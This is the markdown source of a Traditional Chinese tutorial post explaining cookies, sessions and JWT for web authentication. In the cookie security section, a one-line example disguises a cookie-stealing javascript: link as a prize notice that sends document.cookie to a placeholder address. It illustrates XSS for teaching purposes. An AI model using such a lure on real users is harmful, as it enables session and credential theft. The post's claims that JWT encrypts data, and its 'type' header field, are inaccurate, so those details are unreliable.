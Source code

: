 ```yaml
---
title: '身份驗證 - 猜猜我是誰'
description: '關於常見的Web身份驗證機制'
date: '2023-10-25'
category: 'Web'
tags:
  - Web
---
```


# 網頁的身份驗證機制

## 簡介

- HTTP 是一個無狀態協議（stateless），不會記住使用者是誰
- 而是把每一次收到的請求都視為獨立的行為
- 當需要記住使用者的狀態時，就需要某種機制來辨識用戶

## 快速比較

|              | Cookie                                                                     | Session                                               | JWT                                                     |
| ------------ | -------------------------------------------------------------------------- | ----------------------------------------------------- | ------------------------------------------------------- |
| 儲存位置     | 用戶端(瀏覽器)                                                             | 伺服器                                                | 用戶端(local storage or cookie)                         |
| 安全性       | 相對較低，可以被使用者修改或刪除，可使用 Secure 和 HttpOnly 屬性增加安全性 | 相對較高，使用者無法修改或刪除                        | 較安全，使用加密算法保護數據                            |
| 過期時間     | 通常會設定一段時間後就過期                                                 | 通常會設定一段時間後就過期                            | 可以在伺服器設定過期時間或使用 refresh token 延長時效性 |
| 資料傳送方式 | 在 http request 裡的 header                                                | 在 http request 裡的 Header，傳送 session id 回伺服器 | 在 http request 裡的 Header 或 url(不安全)              |
| 使用場景     | 偏向於紀錄簡單的資訊，如用戶偏好、購物車資訊                               | 適合存放較多的用戶資訊，如用戶 ID、權限等             | 適合在不同的伺服器之間共享身份驗證資訊                  |

## cookie

### 是什麼

- 是伺服器傳送給瀏覽器，並在用戶端下次訪問同一網站時，一同傳回的一小段文字資訊
- 以 key-value 的方式儲存在瀏覽器內

### 特性

- 保存在用戶端
- 例如儲存使用者的偏好設定、購物車資料等
- 通常不會儲存隱私相關的機密資訊
- 有大小數量限制，單個 Cookie 最大 4K，一個網域下最多 20 個

![cookie](https://harttle.land/assets/img/blog/cookie.png)

### 可自訂到期時間

**Session Cookie**

- 瀏覽器關閉即清除

**Persistent Cookie**

- 可以設定存在瀏覽器一段時間（明確指定 Cookie 的 Expires 時間）

### 安全性

- 在網站上動態渲染任意 HTML 是很危險的，容易導致 XSS 攻擊
- 可以加上`http only`限制只有 http 協議可以讀取，無法被 Javascript 取得

範例：偷走你的 cookie (儲存的帳密等等機密資料)

```html
<a href="javascript:location.href='url'+ document.cookie">恭喜中獎，點我前往領獎</a>
```

## session

### 是什麼

- 在伺服器端儲存用戶資訊的一種方案
- 需要借助 cookie，儲存憑證(session ID)

### 特性

- 將使用者相關資訊儲存在伺服器，避免被任意修改
- 在使用者完成身分認證並輸入完所需訊息之後，給予一組特定 ID，存入 Cookie 中傳回用戶端
- 下一次用戶端發出請求時，便可以利用該 ID 去辨識是否為同一使用者
- 需要在伺服器端儲存相關的 session 資訊，包括使用者身份、過期時間等等，因此需要一定的伺服器資源
- 每次發出請求時，需要頻繁在伺服器端比對 session ID 和使用者資料
- 多台 Server 要使用 Session 的話，會有共享 Session 的問題產生，導致效能變差

### 驗證流程

1. 當使用者第一次訪問網站時，伺服器會建立一個唯一的 Session ID，並將其儲存到伺服器端的記憶體或資料庫中
2. 伺服器會將此 Session ID 回傳給瀏覽器，通常是透過 Cookie 的方式儲存
3. 當使用者繼續訪問網站時，瀏覽器會將此 Session ID 傳回給伺服器
4. 伺服器會從記憶體或資料庫中尋找此 Session ID 對應的使用者狀態，如果找不到就視為未經驗證的訪問
5. 如果伺服器找到了對應的使用者狀態，就代表此訪問是合法的，並根據使用者狀態進行相應的操作，比如回傳網頁內容或者進行其他的處理

![session](https://www.freecodecamp.org/news/content/images/2021/02/fireship-cookies.png)

## JWT (Json Web Token)

### 是什麼

- token-based 機制的其中一種實作，以 JSON 物件為主體
- 通常用於驗證使用者的身份(Authorization)
- 每次發出需要權限的請求時要帶上給伺服器驗證

### 組成

- header：類型、算法，使用 base64 編碼轉換

```json
{
  "type": "JWT",
  "alg": "HS256"
}
```

- payload：使用者相關的資訊

```json
{
  "name": "Jack",
  "grade": "3rd",
  "identity": "student"
}
```

- signature：base64 編譯後的 Header、Payload 與密鑰(secret key)透過雜湊演算法所產生

### 特性

- 保存在用戶端(瀏覽器)
- 一般不會把機密資訊(例如密碼)放在 payload 當中，因為 base64 編碼不是加密
- 回傳至伺服器只檢查簽名是否正確，不需儲存用戶資料，可減輕伺服器的負擔
- 不用在 Server 的資料庫存放 Session，特別適合多台 Server 的情境下，使得擴展性容易

### 驗證流程

1. 客戶端向伺服器端發送請求，並在 request header 中加入 JWT Token
2. 伺服器端接收到請求後，從 request header 中讀取 JWT Token
3. 伺服器端對 JWT Token 進行驗證，包括驗證簽名是否正確、是否過期、是否被篡改等
4. 驗證成功後，伺服器端可以透過 JWT Token 中的內容，確認使用者的身份，並進行相應的處理
5. 驗證失敗則拒絕請求，或者返回錯誤訊息

![token](https://www.vaadata.com/blog/wp-content/uploads/2016/12/JWT_tokens_EN.png)

## 參考資料

- [Cookie 和 Session 究竟是什麼？有什麼差別？](https://tw.alphacamp.co/blog/cookie-session-difference)
- [自問自答：Session 是什麼？與 Cookie 有什麼差異？](https://chuneck.com/what-is-session/)
- [JWT(JSON Web Token) — 原理介紹](https://medium.com/%E4%BC%81%E9%B5%9D%E4%B9%9F%E6%87%82%E7%A8%8B%E5%BC%8F%E8%A8%AD%E8%A8%88/jwt-json-web-token-%E5%8E%9F%E7%90%86%E4%BB%8B%E7%B4%B9-74abfafad7ba)
- [note JWT](https://pjchender.dev/webdev/note-jwt/)
- [2020 iT 邦鐵人賽-成為看起來很強的後端](https://www.youtube.com/playlist?list=PLS5AiLcCHgNxd341NwuY9EOpVvY5Z8VOs)
- [Session、Cookie、Token](https://juejin.cn/post/7073363137281392647)
- [認識 Cookie、Session、Token 與 JWT](https://blog.yyisyou.tw/5d272c64/)
- [JWT 的運作原理是什麼？](https://www.explainthis.io/zh-hant/swe/jwt)
- [以 axios 實踐前端 refresh token 機制](https://www.dotblogs.com.tw/wasichris/2020/10/25/223728)
